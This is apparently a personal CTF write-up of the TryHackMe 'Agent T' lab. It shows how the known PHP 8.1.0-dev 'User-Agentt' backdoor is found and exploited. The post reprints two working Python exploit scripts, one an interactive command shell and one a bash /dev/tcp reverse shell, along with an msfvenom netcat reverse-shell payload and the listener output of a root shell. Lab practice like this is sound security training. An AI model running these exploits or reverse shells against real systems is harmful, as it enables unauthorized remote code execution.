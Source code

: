 ```yaml
---
categories:
- Tryhackme
- Freetime
- Fundamentals
layout: post
image:
    path: hacking.png
media_subpath: /assets/posts/2025-03-28-Agent-T-Got-10-Minutes
tags:
- CTF
title: TryHackMe - Got 10 minutes? - Agent T
---
```


## Introduction

Got an email about this challenge. Message contained following: "Got 10 minutes? Try to find out what is wrong with the server" 

## Solution

![](images/2025-03-28-18-58.png)

Let's start my ParrotOS to dig deeper of this.

````
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-28 19:10 EET
Nmap scan report for thm.device
Host is up (0.066s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
````

![](images/2025-03-28-19-59.png)

Really interesting, that there is actually a dashboard to this platform with authenticated "Admin" user. While clicking each link in the site, eventually I ended up to similar site but different user logged in. 

![](images/2025-03-28-19-21.png)

At first I thought could there be a session token in the storage but there was not.
Any of the links in the website did not respond into any actions, so I did another Nmap scan with parameter "-A" to entirely scan the host. 
````
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
````
The version is now known, so let´s see if there is any vulnerabilities related to that.
Matter of fact, there was a RCE Backdoor for this specific version of PHP. (https://amsghimire.medium.com/php-8-1-0-dev-backdoor-cb224e7f5914)

It´s about changing the user-agent of the request into "User-agentt" and using payload "zerodiumsysytem("*command*")", this will be executed in the backend server.
Here is a python script from this blog to make the exploitation process persistent, this script belongs to author (https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) - Flast101 :

````
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
````

As expected, we ended up getting a shell using this exploit.

![](images/2025-03-28-19-14.png)

I wanted a better shell and started a netcat listener on Parrot's end but the simple reverse shell commands did not work on this host. MSFVenom could solve this problem.
````
┌─[tigris@parrot]─[~/Desktop]
└──╼ $msfvenom -p cmd/unix/reverse_netcat LHOST=10.x.x.x LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 99 bytes
mkfifo /tmp/tnbsawx; nc 10.x.x.x 4444 0</tmp/tnbsawx | /bin/sh >/tmp/tnbsawx 2>&1; rm /tmp/tnbsawx
````
This did not work either. Then i ended up finding this script, which contained a bash-command for the shell. I tried manually exploit the same command but it did not work and it might be that the earlier backdoor-script will format the request incorrectly. This was also made by flash101 - (https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) - (https://flast101.github.io/php-8.1.0-dev-backdoor-rce/)

````
#!/usr/bin/env python3
import os, sys, argparse, requests

request = requests.Session()

def check_target(args):
    response = request.get(args.url)
    for header in response.headers.items():
        if "PHP/8.1.0-dev" in header[1]:
            return True
    return False

def reverse_shell(args):
    payload = 'bash -c \"bash -i >& /dev/tcp/' + args.lhost + '/' + args.lport + ' 0>&1\"'
    injection = request.get(args.url, headers={"User-Agentt": "zerodiumsystem('" + payload + "');"}, allow_redirects = False)

def main(): 
    parser = argparse.ArgumentParser(description="Get a reverse shell from PHP 8.1.0-dev backdoor. Set up a netcat listener in another shell: nc -nlvp <attacker PORT>")
    parser.add_argument("url", metavar='<target URL>', help="Target URL")
    parser.add_argument("lhost", metavar='<attacker IP>', help="Attacker listening IP",)
    parser.add_argument("lport", metavar='<attacker PORT>', help="Attacker listening port")
    args = parser.parse_args()
    if check_target(args):
        reverse_shell(args)
    else:
        print("Host is not available or vulnerable, aborting...")
        exit
    
if __name__ == "__main__":
    main()
````

We are in.

````
┌─[✗]─[tigris@parrot]─[~/Desktop]
└──╼ $netcat -lvnp 4444
listening on [any] 4444 ...
connect to [10.x.x.x] from (UNKNOWN) [10.x.x.x] 35484
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3f8655e43931:/var/www/html#
root@3f8655e43931:/# ls

ls
bin
boot
dev
etc
flag.txt
home

root@3f8655e43931:/# cat flag.txt
flag{412xxxxxxxxxxxxxxxxxxxxxxxxx}
````


